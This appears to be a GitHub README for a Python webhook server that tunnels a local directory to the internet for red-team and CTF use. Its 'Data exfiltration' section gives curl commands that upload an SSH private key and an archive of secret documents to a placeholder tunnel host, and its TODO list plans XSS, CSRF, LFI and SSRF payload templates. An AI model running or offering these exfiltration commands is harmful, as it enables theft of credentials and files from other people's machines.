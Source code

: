 <h2 align="center">
  🪝 Webhook Server Tunnel
</h2>


 
<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FSearchToolkit">
        <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fwebhook&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.buymeacoffee.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Buy%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black" alt="Buy Me a Coffee">
    </a>  
    <a href="mailto:ehph@proton.me">
      <img src="https://img.shields.io/badge/ProtonMail-6001D2?style=for-the-badge&logo=protonmail&logoColor=white" alt="ProtonMail">
    </a>
    <a href="https://github.com/l0n3m4n/SearchToolkit/blob/main/assets/contributing.md">
      <img src="https://img.shields.io/badge/Contribute-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
  </a>
</p>
<br/>

This Python script serves a local directory over HTTP and exposes it securely to the internet via a reverse tunnel using either:

- Serveo (SSH-based tunneling)
- Cloudflared (Cloudflare Tunnel)

It’s especially useful for:

- 📁 Hosting payloads or exploits during red team exercises or CTFs
- 📤 Exfiltrating data from compromised targets in a controlled environment via (`https`)
- 🧪 Testing XSS, CSRF, and SSRF vulnerabilities by exposing local endpoints
- 🌐 Simulating external servers during bug bounty engagements
- 💻 Demonstrating proof-of-concepts (PoCs) for file uploads or callbacks
- 🔐 Secure remote access to localhost web apps for testing
- 📡 Bypassing NAT/firewall restrictions without port forwarding

![Banner](assets/banner.png)

---

## 🚀 Features

- HTTP server using Python's built-in modules
- Logs all request headers to `headers.log`
- Expose server via:
  - 🌐 [Serveo](https://serveo.net)
  - ☁️ [Cloudflared](https://developers.cloudflare.com/cloudflare-one/)
- ANSI-colored terminal output
- Easy to use CLI

---

## 🛠 Requirements

- Python 3.6+
- `cloudflared` (only if Serveo is unavailable)

---

## 📦 Installation

```bash
# Clone the repo
git clone https://github.com/l0n3m4n/webhook.git
cd webhook

# Make it executable
chmod +x webhook.py

# (Optional) Install cloudflared if not using Serveo
sudo apt install cloudflared  # Or follow: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps/install-and-setup/
```

## 🐧 Kali linux (debian,ubuntu)
```bash
# system update
sudo apt update

# dependencies
sudo apt install -y curl gnupg lsb-release

# Add Cloudflare's GPG key
curl -fsSL https://pkg.cloudflare.com/cloudflare-main.gpg | sudo gpg --dearmor -o /usr/share/keyrings/cloudflare-main.gpg

# Add the Cloudflare apt repository
echo "deb [signed-by=/usr/share/keyrings/cloudflare-main.gpg] https://pkg.cloudflare.com/cloudflared $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/cloudflared.list

# Update apt again and Install
sudo apt update && sudo apt install cloudflared -y 
```
## 📡 Usage
```bash
sudo python3 webhook.py -p 8080 -d /var/www/html
```
![usage](assets/usage.png)
![output](assets/output.png)
![status_codes](assets/status_codes.png)
![headers_log](assets/headers_logs.png)
- This will:
    - Serve files at http://localhost:8080
    - Attempt to expose it via Serveo

## 🔁 Data exfiltration
```bash
curl -F "file=@/home/user/.ssh/id_rsa" https://abc123.cloudflareTunnel.com/upload

tar czf secrets.tar.gz ~/Documents/secrets
curl -F "file=@secrets.tar.gz" https://abc123.cloudflareTunnel.com/upload

```

## 🔐 Security Notes
- This tool uses SSH for Serveo and a reverse proxy for Cloudflared.
- Ensure you trust any services you expose publicly.

## ✅ TODO List

### 🔌 Tunnel Providers
- [ ] Add support for multiple tunneling services:
  - [x] `Serveo`
  - [x] `Cloudflared`
  - [x] `Ngrok`
  - [x] `LocalTunnel`
- [x] Add CLI flags for selecting tunnel provider (e.g., `--serveo`, `--cloudflared`, `--ngrok`)
- [x] Auto-detect and install missing binaries (e.g., `ngrok`, `cloudflared`)

### 🌐 Server Features
- [x] Display public tunnel URL clearly
- [x] Serve files from a specified directory
- [x] Web-based directory listing with download buttons
- [x] File upload support for data exfiltration
- [x] Log incoming HTTP requests (IP, User-Agent, Time)

### ⏱️ Control & Automation
- [ ] Implement auto-shutdown timer
- [ ] Auto-reconnect/restart tunnels on failure
- [ ] Add password protection for server access

### 🧪 Exploitation Helpers
- [ ] Generate payload templates:
  - [ ] XSS (DOM, Reflected, Stored)
  - [ ] CSRF Proof of Concept
  - [ ] LFI/RFI test cases
  - [ ] SSRF test URLs
- [ ] Webhook listener module (e.g., for Blind XSS or SSRF detection)
- [ ] Integrate with Interactsh or Burp Collaborator

### 🛠️ Developer Tools
- [ ] Proxy chaining to local tools like Burp Suite
- [ ] Optional local logging
- [ ] QR code generator for public URLs
- [x] CLI output beautification (colors, banners, progress indicators)

---

> Contributions and suggestions are welcome!
